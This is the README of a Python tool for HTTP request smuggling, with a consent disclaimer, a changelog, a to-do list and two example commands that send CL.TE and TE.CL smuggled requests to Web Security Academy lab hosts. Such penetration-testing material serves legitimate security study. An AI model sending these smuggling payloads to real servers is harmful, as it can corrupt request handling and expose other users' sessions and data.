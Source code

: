 # pyhttpsmuggler
Scripts related to web/request smuggling & general web hacking.
*This project is free to use and modify. The three things I ask of those interested in using/modifying/distributing this project is:
1. Users have the explicit consent from target host servers' maintainers to test for vulnerabilities-- as a successful exploit may disrupt web-services and/or leak sensitive user-data.
2. Any derivative project using any component from this project upholds the open-source philosophy with others in the research & development community.
3. Lastly, I ask (well, it's more of a statement really) that I assume no liability or responsibility for any & all potential consequences of others'actions when using this script on a live server instance.*
## General Information
- The keys for the argument list are colored yellow. The values are purple.
- The request body field is colored such that the purple portion denotes the substring of the request covered by the content-length field. The cyan portion denotes the part of the request to be smuggled. 
## Examples
*Note: passing arguments denoted by pairs of quotations (",') is necessary for request fields which may contain spaces or special charachters*
### CL.TE Vulnerability
```python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "35" --body-data ""  --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" --debug "1"```
### TE.CL Vulnerability
```python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "4" --body-data "5c"\ 
   --smuggled-body-fields "GPOST / HTTP/1.1,Content-Type: application/x-www-form-urlencoded,Content-Length: 15,,x=1,0," --debug "1"```
## Changelog
### 9/4/2021
- Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.
### 9/5/2021
- Implemented a CLI using argparse and the WebRequest class. This introduces robustness and more opportunities for automation since worker threads can easily invoke specially-crafted requests by passing arguments over the CLI under the control of a parent thread or list of exploits to try.
- Updated README with example usage and development logs
# Todo:
## pyhttpsuggler-cli
1. [X] Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
2. [ ] Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks
3. [ ] Create a text file with various desync attacks to test on an target webserver and a parser to turn the entries in the file into different requests.
4. [ ] Cleanup the chunk of if/elif/else login in pysmuggler.py:34-94
